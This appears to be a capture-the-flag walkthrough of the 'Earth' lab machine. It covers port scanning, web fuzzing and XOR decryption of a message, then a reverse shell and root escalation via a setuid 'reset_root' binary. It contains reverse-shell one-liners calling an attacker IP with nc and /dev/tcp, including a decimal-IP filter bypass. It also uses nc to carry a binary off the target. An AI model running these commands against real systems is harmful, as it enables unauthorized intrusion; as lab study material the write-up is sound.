

## init
```bash
arp-scan -I wlo1 --localnet
ping -c 1 192.168.1.13
nmap -p- --open --min-rate 5000 -vvv -n -sS -Pn 192.168.1.13 -oG allPorts
nmap -sCV -p22,80,443 192.168.1.13 -oN targeted

whatweb http://192.168.1.13

# Using Dirb
dirb http://192.168.1.13 /usr/share/wordlists/dirb/common.txt

# 
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local

nmap --script http-enum -p80,443 192.168.1.13 -oN webscan

# For open ssl
443/tcp open  ssl/http Apache httpd 2.4.51 ((Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9)
| ssl-cert: Subject: commonName=earth.local/stateOrProvinceName=Space
| Subject Alternative Name: DNS:earth.local, DNS:terratest.earth.local
| Not valid before: 2021-10-12T23:26:31
|_Not valid after:  2031-10-10T23:26:31
|_http-title: Bad Request (400)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.51 (Fedora) OpenSSL/1.1.1l mod_wsgi/4.7.1 Python/3.9
| tls-alpn: 
|_  http/1.1
MAC Address: 94:E7:0B:7D:28:87 (Intel Corporate)

openssl s_client -connect 192.168.1.13:443 # to scan_ssl.txt
<>

#ans
│ ---
   3   │ Certificate chain
   4   │  0 s:ST = Space, L = Milky Way, CN = earth.local
   5   │    i:ST = Space, L = Milky Way, CN = earth.local
   6   │    a:PKEY: rsaEncryption, 4096 (bit); sigalg: RSA-SHA256
   7   │    v:NotBefore: Oct 12 23:26:31 2021 GMT; NotAfter: Oct 10 23:26:31 2031 GMT

# Add to /etc/host earth.local
ping -c 1 earth.local

192.168.1.13 earth.local # in /etc/hosts

ping -c 1 earth.local
# ans
PING earth.local (192.168.1.13) 56(84) bytes of data.
64 bytes from earth.local (192.168.1.13): icmp_seq=1 ttl=64 time=0.818 ms

--- earth.local ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.818/0.818/0.818/0.000 ms

whatweb earth.local

192.168.1.13 earth.local terratest.earth.local # add in /etc/hosts too

whatweb terratest.earth.local

# Add domains in /etc/hosts and do scanning again
nmap --script http-enum -p80,443 192.168.1.13

#ans
PORT    STATE SERVICE
80/tcp  open  http
| http-enum: 
|   /admin/: Possible admin folder
|_  /icons/: Potentially interesting folder w/ directory listing
443/tcp open  https
| http-enum: 
|   /admin/: Possible admin folder
|_  /icons/: Potentially interesting folder w/ directory listing
MAC Address: 94:E7:0B:7D:28:87 (Intel Corporate)


```
- XOR


```bash
# XOR
message ^ key = cifrado

  0010  (2)
^ 0110  (6)
-------
  0100  (Result) # 4

  0110  (6)
^ 0100  (4)
-------
  0010  (Result) # 2

# Using cyberChef #
https://gchq.github.io/CyberChef/


```


- Decript message


```bash
https://terratest.earth.local/
https://terratest.earth.local/robots.txt
# ans
Disallow: /*.asp
Disallow: /*.aspx
Disallow: /*.bat
Disallow: /*.c
Disallow: /*.cfm
Disallow: /*.cgi
Disallow: /*.com
Disallow: /*.dll
Disallow: /*.exe
Disallow: /*.htm
Disallow: /*.html
Disallow: /*.inc
Disallow: /*.jhtml
Disallow: /*.jsa
Disallow: /*.json
Disallow: /*.jsp
Disallow: /*.log
Disallow: /*.mdb
Disallow: /*.nsf
Disallow: /*.php
Disallow: /*.phtml
Disallow: /*.pl
Disallow: /*.reg
Disallow: /*.sh
Disallow: /*.shtml
Disallow: /*.sql
Disallow: /*.txt
Disallow: /*.xml

wfuzz -c --hc=404 -t 200 

echo "Disallow: /*.asp
Disallow: /*.aspx
Disallow: /*.bat
Disallow: /*.c
Disallow: /*.cfm
Disallow: /*.cgi
Disallow: /*.com
Disallow: /*.dll
Disallow: /*.exe
Disallow: /*.htm
Disallow: /*.html
Disallow: /*.inc
Disallow: /*.jhtml
Disallow: /*.jsa
Disallow: /*.json
Disallow: /*.jsp
Disallow: /*.log
Disallow: /*.mdb
Disallow: /*.nsf
Disallow: /*.php
Disallow: /*.phtml
Disallow: /*.pl
Disallow: /*.reg
Disallow: /*.sh
Disallow: /*.shtml
Disallow: /*.sql
Disallow: /*.txt
Disallow: /*.xml" | awk 'NF{print $NF}'

echo "Disallow: /*.asp
Disallow: /*.aspx
Disallow: /*.bat
Disallow: /*.c
Disallow: /*.cfm
Disallow: /*.cgi
Disallow: /*.com
Disallow: /*.dll
Disallow: /*.exe
Disallow: /*.htm
Disallow: /*.html
Disallow: /*.inc
Disallow: /*.jhtml
Disallow: /*.jsa
Disallow: /*.json
Disallow: /*.jsp
Disallow: /*.log
Disallow: /*.mdb
Disallow: /*.nsf
Disallow: /*.php
Disallow: /*.phtml
Disallow: /*.pl
Disallow: /*.reg
Disallow: /*.sh
Disallow: /*.shtml
Disallow: /*.sql
Disallow: /*.txt
Disallow: /*.xml" | awk 'NF{print $NF}' | awk '{print $2}' FS="."

# ans
asp
aspx
bat
c
cfm
cgi
com
dll
exe
htm
html
inc
jhtml
jsa
json
jsp
log
mdb
nsf
php
phtml
pl
reg
sh
shtml
sql
txt
xml

echo "Disallow: /*.asp
Disallow: /*.aspx
Disallow: /*.bat
Disallow: /*.c
Disallow: /*.cfm
Disallow: /*.cgi
Disallow: /*.com
Disallow: /*.dll
Disallow: /*.exe
Disallow: /*.htm
Disallow: /*.html
Disallow: /*.inc
Disallow: /*.jhtml
Disallow: /*.jsa
Disallow: /*.json
Disallow: /*.jsp
Disallow: /*.log
Disallow: /*.mdb
Disallow: /*.nsf
Disallow: /*.php
Disallow: /*.phtml
Disallow: /*.pl
Disallow: /*.reg
Disallow: /*.sh
Disallow: /*.shtml
Disallow: /*.sql
Disallow: /*.txt
Disallow: /*.xml" | awk 'NF{print $NF}' | awk '{print $2}' FS="." | xargs | tr ' ' '-'

# ans
asp-aspx-bat-c-cfm-cgi-com-dll-exe-htm-html-inc-jhtml-jsa-json-jsp-log-mdb-nsf-php-phtml-pl-reg-sh-shtml-sql-txt-xml

# FUZZING
wfuzz -c --hc=404 -t 200 -z list,asp-aspx-bat-c-cfm-cgi-com-dll-exe-htm-html-inc-jhtml-jsa-json-jsp-log-mdb-nsf-php-phtml-pl-reg-sh-shtml-sql-txt-xml https://terratest.earth.local/testingnotes.FUZZ

# ans
Target: https://terratest.earth.local/testingnotes.FUZZ
Total requests: 28

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                   
=====================================================================

000000027:   200        9 L      90 W       546 Ch      "txt"                                                                                                                                                                     

Total time: 0
Processed Requests: 28
Filtered Requests: 27
Requests/sec.: 0

https://terratest.earth.local/testingnotes.txt

```


```bash
https://terratest.earth.local/testdata.txt

```


```bash
According to radiometric dating estimation and other evidence, Earth formed over 4.5 billion years ago. Within the first billion years of Earth's history, life appeared in the oceans and began to affect Earth's atmosphere and surface, leading to the proliferation of anaerobic and, later, aerobic organisms. Some geological evidence indicates that life may have arisen as early as 4.1 billion years ago.

```


```bash

key : earthclimatechangebad4humans

```




```bash
nc -nlvp 443
nc -e /bin/bash 192.168.1.12 443 # doesnt func
bash -i >& /dev/tcp/192.168.1.12/443 0>&1 # doenst func

# ip to decimal
https://www.browserling.com/tools/ip-to-dec

# 192.168.1.12 -> 3232235788

bash -i >& /dev/tcp/3232235788/443 0>& # out in admin portal

script /dev/null -c bash
ctrl + z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash

stty size
stty rows 44 columns 184

find / -perm -4000 -ls 2>/dev/null
#ans
 12851509     76 -rwsr-xr-x   1 root     root        74208 Aug  9  2021 /usr/bin/chage
 12747606     80 -rwsr-xr-x   1 root     root        78536 Aug  9  2021 /usr/bin/gpasswd
 12747609     44 -rwsr-xr-x   1 root     root        42256 Aug  9  2021 /usr/bin/newgrp
 12851796     60 -rwsr-xr-x   1 root     root        58384 Feb 12  2021 /usr/bin/su
 12851780     52 -rwsr-xr-x   1 root     root        49920 Feb 12  2021 /usr/bin/mount
 12851799     40 -rwsr-xr-x   1 root     root        37560 Feb 12  2021 /usr/bin/umount
 12671177     32 -rwsr-xr-x   1 root     root        32648 Jun  3  2021 /usr/bin/pkexec # target maybe
 13256412     32 -rwsr-xr-x   1 root     root        32712 Jan 30  2021 /usr/bin/passwd
 13256418     36 -rws--x--x   1 root     root        33488 Feb 12  2021 /usr/bin/chfn
 13256419     28 -rws--x--x   1 root     root        25264 Feb 12  2021 /usr/bin/chsh
 13256550     60 -rwsr-xr-x   1 root     root        57432 Jan 26  2021 /usr/bin/at
 13258486    184 ---s--x--x   1 root     root       185504 Jan 26  2021 /usr/bin/sudo
 12961001     24 -rwsr-xr-x   1 root     root        24552 Oct 12  2021 /usr/bin/reset_root # target
   467872     16 -rwsr-xr-x   1 root     root        15632 Sep 29  2021 /usr/sbin/grub2-set-bootflag
   468250     16 -rwsr-xr-x   1 root     root        16096 Jun 10  2021 /usr/sbin/pam_timestamp_check
   468252     24 -rwsr-xr-x   1 root     root        24552 Jun 10  2021 /usr/sbin/unix_chkpwd
   879418    116 -rwsr-xr-x   1 root     root       116064 Sep 23  2021 /usr/sbin/mount.nfs
  4352689     24 -rwsr-xr-x   1 root     root        24536 Jun  3  2021 /usr/lib/polkit-1/polkit-agent-helper-1

/usr/bin/reset_root
# ans
CHECKING IF RESET TRIGGERS PRESENT...
RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.

# send binary from remote to local macine
nc -nlvp 443 > reset_root # local
nc 192.168.1.12 443 < /usr/bin/reset_root # remote

<>

sudo apt install ltrace

chmod +x reset_root
ltrace ./reset_root
# ans
puts("CHECKING IF RESET TRIGGERS PRESE"...CHECKING IF RESET TRIGGERS PRESENT...
)                           = 38
access("/dev/shm/kHgTFI5G", 0)                                        = -1
access("/dev/shm/Zw7bV9U5", 0)                                        = -1
access("/tmp/kcM0Wewe", 0)                                            = -1
puts("RESET FAILED, ALL TRIGGERS ARE N"...RESET FAILED, ALL TRIGGERS ARE NOT PRESENT.
)                           = 44
+++ exited (status 0) +++

# Create dirs in remote machine and exec reset_root
```


```bash
./reset_root
```


```bash
cd /root
cat root_flag.txt


              _-o#&&*''''?d:>b\_
          _o/"`''  '',, dMF9MMMMMHo_
       .o&#'        `"MbHMMMMMMMMMMMHo.
     .o"" '         vodM*$&&HMMMMMMMMMM?.
    ,'              $M&ood,~'`(&##MMMMMMH\
   /               ,MMMMMMM#b?#bobMMMMHMMML
  &              ?MMMMMMMMMMMMMMMMM7MMM$R*Hk
 ?$.            :MMMMMMMMMMMMMMMMMMM/HMMM|`*L
|               |MMMMMMMMMMMMMMMMMMMMbMH'   T,
$H#:            `*MMMMMMMMMMMMMMMMMMMMb#}'  `?
]MMH#             ""*""""*#MMMMMMMMMMMMM'    -
MMMMMb_                   |MMMMMMMMMMMP'     :
HMMMMMMMHo                 `MMMMMMMMMT       .
?MMMMMMMMP                  9MMMMMMMM}       -
-?MMMMMMM                  |MMMMMMMMM?,d-    '
 :|MMMMMM-                 `MMMMMMMT .M|.   :
  .9MMM[                    &MMMMM*' `'    .
   :9MMk                    `MMM#"        -
     &M}                     `          .-
      `&.                             .
        `~,   .                     ./
            . _                  .-
              '`--._,dd###pp=""'

Congratulations on completing Earth!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_b0da9554d29db2117b02aa8b66ec492e]

```